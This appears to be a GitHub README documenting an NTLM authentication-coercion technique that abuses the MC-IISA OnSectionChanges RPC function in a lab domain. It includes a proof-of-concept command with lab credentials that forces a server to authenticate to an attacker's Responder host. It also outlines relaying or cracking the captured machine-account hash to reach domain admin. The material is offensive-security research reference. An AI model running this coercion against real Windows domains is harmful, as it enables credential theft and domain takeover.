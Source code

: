# MC-IISA - Remote call to OnSectionChanges (opnum 3)

## Summary

+ **Protocol**: [[MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6)

+ **Protocol UUID**: 31a83ea0-c0e4-4a2c-8a01-353cc2a4c60a

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`OnSectionChanges`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/c46852f7-3702-499d-a97e-458e6216fd37)

+ **Function operation number**: `3`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MC-IISA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) protocol (with uuid `31a83ea0-c0e4-4a2c-8a01-353cc2a4c60a` and version `0.0`) in order to perform remote procedure calls to functions in the [`MC-IISA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) and allows to call RPC functions of this protocol. We will then call the remote [`OnSectionChanges`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/c46852f7-3702-499d-a97e-458e6216fd37) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
OnSectionChanges('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT OnSectionChanges(
   [in] BSTR bstrSectionName,
   [in] BSTR bstrConfigPath
 );
```

## References

+ Documentation of protocol [MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6

+ Documentation of function `OnSectionChanges`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/c46852f7-3702-499d-a97e-458e6216fd37